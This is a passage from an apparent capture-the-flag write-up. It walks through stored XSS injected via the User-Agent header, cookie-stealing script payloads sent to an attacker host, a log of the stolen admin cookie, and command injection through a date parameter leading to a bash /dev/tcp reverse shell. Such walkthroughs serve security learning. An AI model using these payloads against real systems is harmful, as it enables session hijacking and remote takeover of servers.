 ### Exploiting XSS
But there is some interesting information it reveals, when the IP gets flagged, the browser information gets sent to Admin.
After testing for a while came to understand that `<`/`>` are blocked.
Since it displays everything about the browser info, Well when tried to inject something in `User-Agent` it also got displayed on the page.

![header](header.png)

When I tried injecting XSS payload into the `User-Agent` header (or whatever header) it', processes it:

![xss](poc.png)

Now that we have xss we can use a simple payload to steal the cookie of whoever is checking the reports.

```html
<script>document.location='http://10.10.10.10/?'+document.cookie</script>

OR

<script>var i=new Image(); i.src="http://10.10.10.10/?c="+document.cookie;</script>
```
And after some moment we have the cookie on our webserver.
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.78 - - [30/Oct/2024 14:59:09] "GET /?c=
10.129.233.92 - - [30/Oct/2024 14:59:59] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```
```
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
### Dashboard
From the ffuf results saw that there is `/dashboard`, After updating the old cookie with the new one we just stole we have **Administrator Dashboard**, Where Admins can generate website health report.

![generate_report](report.png)

### Command Injection
clicking on the **Generate Report** doesn't show much, when looking at the request through burp, it's just sending date, it could be just executing the `date` in the OS to just test when I tried sending it like this `date=2023-09-15; id` it worked, now we have command injection. let's get a shell.
I'll use the simple bash reverse shell.

```
bash -c 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1'
```
But first we need to url-encode it.

```
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.78/9001+0>%261'
```
